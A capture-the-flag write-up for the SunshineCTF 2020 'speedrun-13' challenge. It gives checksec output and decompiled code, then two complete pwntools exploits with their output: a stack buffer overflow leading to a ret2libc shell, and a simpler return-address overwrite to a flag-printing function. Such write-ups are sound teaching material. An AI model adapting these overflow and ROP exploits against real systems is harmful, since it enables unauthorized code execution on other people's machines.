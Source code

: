# **speedrun-13**
## Task
nc chal.2020.sunshinectf.org 30013
File: chall_13
Tag: binary exploitation 

## Solution

### Checksec
```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
* No canary assume BOF
* NO PIE assume ROP
* System 32 bit
### Decompile with ghidra
```c
void vuln(void)
{
  char local_3e [54];
  
  __x86.get_pc_thunk.ax();
  gets(local_3e);
  return;
}
```

With this challenge, there is not a `win` and not NX disabled So we have to search the `system("/bin/sh")`

This is basic ROP pattern of leaking the version of `libc`

This is *dynamically linked* so we have to leak the **base address** and find the **version libc**
```bash
$ file chall_13
chall_13: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=9581893d5b783e901ae485e4500a84f72cc4e263, not stripped
```

We see in the `puts` in the GOT then taking advantage of this function to print the base address. Because the system is 32 bit so passing the parameter through stack -> we overwrite the return `vuln`'s return address with `GOT.puts` then put out the 'sym.puts' address. Finally, go back to the `vuln`

The middle part , searching for the suitable libc the download it (`libc_index = 1` is not work correctly increase it to 1 until it work! )

The `libc.sym.system` calls the `system()` function

`payload += 4*b'B'` this line of code is use to align the stack of system 32 bit

The last write out with the "/bin/sh" as the argument of the `system()`



### Exploit
```python
from pwn import *
binary = context.binary = ELF('./chall_13')

libc_index = 1
p = remote('chal.2020.sunshinectf.org',30013)

payload = 0x3e*b'A'
payload +=p32(binary.sym.puts)
payload += p32(binary.sym.vuln)
payload += p32(binary.got.puts)

p.sendlineafter('Keep on writing\n','IxZ')
p.sendline(payload)

rec = p.recv(4)
puts = u32(rec)


if not 'libc' in locals():
    import requests
    r = requests.post('https://libc.rip/api/find',json = {'symbols':{'puts':hex(puts)[-3:]}})
    libc_url = r.json()[libc_index]['download_url']
    libc_file = libc_url.split('/')[-1:][0]
    if not os.path.exists(libc_file):
        log.info('getting: ' + libc_url)
        r = requests.get(libc_url,allow_redirects=True)
        open(libc_file,'wb').write(r.content)

    libc = ELF(libc_file)
print('pre libc.address: ',libc.address)
print('sym.puts: ',libc.sym.puts)
print('binary.got.puts: ',binary.got.puts)
libc.address = puts- libc.sym.puts
print('puts: ', puts)
log.info('libc.address: '+hex(libc.address))

payload = 0x3e*b'A'
payload += p32(libc.sym.system)
payload += 4*b'B'
payload += p32(libc.search(b'/bin/sh').__next__())
p.sendline(payload)
p.interactive()
```

### Output
```bash
[*] '/home/kali/speedrun_sunshineCTF2020/chall_13'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Opening connection to chal.2020.sunshinectf.org on port 30013: Done
[*] '/home/kali/speedrun_sunshineCTF2020/libc6_2.23-0ubuntu11.2_i386.so'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
pre libc.address:  0
sym.puts:  392368
binary.got.puts:  134520852
puts:  4158930096
[*] libc.address: 0xf7de4000
[*] Switching to interactive mode
\x96\x83\x04P\x
$ ls
chall_13
flag.txt
$ cat flag.txt
sun{almost-easy-61ddd735cf9053b0}
```

## However
### This challenge can solve with the experience of the premise challenge but not following the author desire 
We can found the `systemFunc` will show the flag
```c
void systemFunc(void)
{
  int iVar1;
  
  iVar1 = __x86.get_pc_thunk.ax();
  system((char *)(iVar1 + 0x12e));
  return;
}
```
So just overwrite the `vuln` return address with `systemFunc`

### Exploit
```python
from pwn import *

binary = context.binary = ELF('./chall_13')
payload = b'A'*0x3e
payload += p32(binary.sym.systemFunc)
p = remote('chal.2020.sunshinectf.org',30013)
p.sendline('IxZ')
p.sendline(payload)
print(payload)
p.interactive()
```

### Output
```bash
[*] '/home/kali/speedrun_sunshineCTF2020/chall_13'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Opening connection to chal.2020.sunshinectf.org on port 30013: Done
b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xd6\x84\x04\x08'
[*] Switching to interactive mode
Keep on writing
$ ls
chall_13
flag.txt
$ cat flag.txt
sun{almost-easy-61ddd735cf9053b0}
```
